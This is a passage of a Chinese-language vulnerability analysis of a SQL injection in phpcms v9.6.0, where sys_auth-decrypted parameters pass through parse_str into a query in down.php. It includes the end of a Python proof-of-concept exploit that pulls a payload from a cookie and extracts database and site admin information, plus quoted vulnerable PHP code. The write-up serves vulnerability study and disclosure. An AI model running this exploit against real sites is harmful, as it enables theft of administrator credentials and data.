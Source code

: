 ```python
		resp = sqlinfo.content
		print '[+] Get mysql info : ' + resp.split('poctest')[1]
	def get_admininfo(self,url,payload,padding,exploit_url): 
		sqli_payload=''
		resp=requests.get(url+payload+padding,cookies=self.cookie)
		for key in resp.cookies:
			if key.name[-9:] == '_att_json':
				sqli_payload = key.value
				print '[+] Get admin info Payload : ' + sqli_payload	
		admininfo_link = exploit_url + sqli_payload
		admininfo=requests.get(admininfo_link,cookies=self.cookie)
		resp = admininfo.content
		print '[+] Get site admin info : ' + resp.split('poctest')[1]
		
if __name__ == '__main__':
    phpcms = Poc()
    phpcms.test()

```
### 漏洞原因
在写标题时，我在想尽量用一言点清这个漏洞的原因。这里写了phpcms v9.6.0 sys_auth在解密参数后未进行适当校验造成sql injection。具体的漏洞触发点在phpcms\modules\content\down.php文件init函数中，代码如下:
```php
public function init() {
		$a_k = trim($_GET['a_k']);//获取a_k参数
		if(!isset($a_k)) showmessage(L('illegal_parameters'));
		$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));//使用sys_auth加密并传入DECODE及system.php文件中的auth_key
		if(empty($a_k)) showmessage(L('illegal_parameters'));
		unset($i,$m,$f);
		parse_str($a_k);//将解密后的字符串解析到变量
		if(isset($i)) $i = $id = intval($i);
		if(!isset($m)) showmessage(L('illegal_parameters'));
		if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
		if(empty($f)) showmessage(L('url_invalid'));
		$allow_visitor = 1;
		$MODEL = getcache('model','commons');
		$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
		$this->db->table_name = $tablename.'_data';
		$rs = $this->db->get_one(array('id'=>$id));	//id传入sql查询语句
		......部分代码省略....
		......
```
代码通过GET获取'a_k'值，并调用sys_auth函数进行解密，这里传入了'DECODE'参数以及配置文件caches\configs\system.php文件中的auth_key字段。所以可以知道这里是使用了auth_key并进行解密操作。具体可以查看phpcms\libs\functions\global.func.php第384行sys_auth函数的定义。
在对a_k解密后使用parse_str将字符串解析到变量，并同时解码。如下代码，输出的id为:'union select
```php
<?php 
$test='id=%27union%20select';
parse_str($test);
echo $id;
?>
```
最后在第26行处代码处(down.php)将id传入sql查询语句。
